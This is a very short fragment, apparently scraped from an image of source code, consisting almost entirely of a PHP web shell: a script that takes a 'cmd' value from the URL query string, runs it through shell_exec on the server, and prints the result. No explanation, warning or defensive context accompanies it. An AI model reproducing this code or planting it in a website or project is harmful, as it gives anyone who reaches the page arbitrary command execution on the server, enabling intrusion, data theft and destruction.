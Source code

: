 <?php
if (isset($_GET['cmd']))
{

  $cmd = $_GET['cmd'];
  echo '<pre>';
  $result = shell_exec($cmd);
  echo $result;
  echo '</pre>';

}
?>

